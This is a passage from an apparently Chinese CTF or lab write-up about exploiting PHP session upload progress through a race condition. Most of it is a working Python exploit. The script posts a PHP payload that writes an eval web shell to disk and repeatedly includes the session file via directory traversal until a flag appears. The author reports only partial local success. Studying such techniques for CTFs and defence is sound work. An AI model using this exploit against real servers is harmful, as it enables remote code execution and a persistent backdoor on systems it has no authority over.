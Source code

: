 然后因为上面存在cleanup

会清除这个文件 所以我们需要条件竞争 可以维持sess_nm1111sl的存在

这里我们就可以编写个exp来实现了

#### 技巧1

```cobol
import io
import sys
import requests
import threading
 
sessid = 'Qftm'
 
def POST(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            'http://192.33.6.145/index.php',
            data={"PHP_SESSION_UPLOAD_PROGRESS":"<?php phpinfo();fputs(fopen('C:\Users\Administrator\AppData\Local\Temp\shell.php','w'),'<?php @eval($_POST[mtfQ])?>');?>"},
            files={"file":('q.txt', f)},
            cookies={'PHPSESSID':sessid}
        )
 
def READ(session):
    while True:
        response = session.get(f'http://192.33.6.145/index.php?file=../../../../../../../../var/lib/php/sessions/sess_{sessid}')
        # print('[+++]retry')
        # print(response.text)
 
        if 'flag' not in response.text:
            print('[+++]retry')
        else:
            print(response.text)
            sys.exit(0)
 
with requests.session() as session:
    t1 = threading.Thread(target=POST, args=(session, ))
    t1.daemon = True
    t1.start()
 
    READ(session)
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/750cd57d2c69383e30cfb637ed3f1552.png" alt="" style="max-height:96px; box-sizing:content-box;" />


由于本地环境部署可能有问题 没有实现成功 但是确实出现了 sess_shell文件

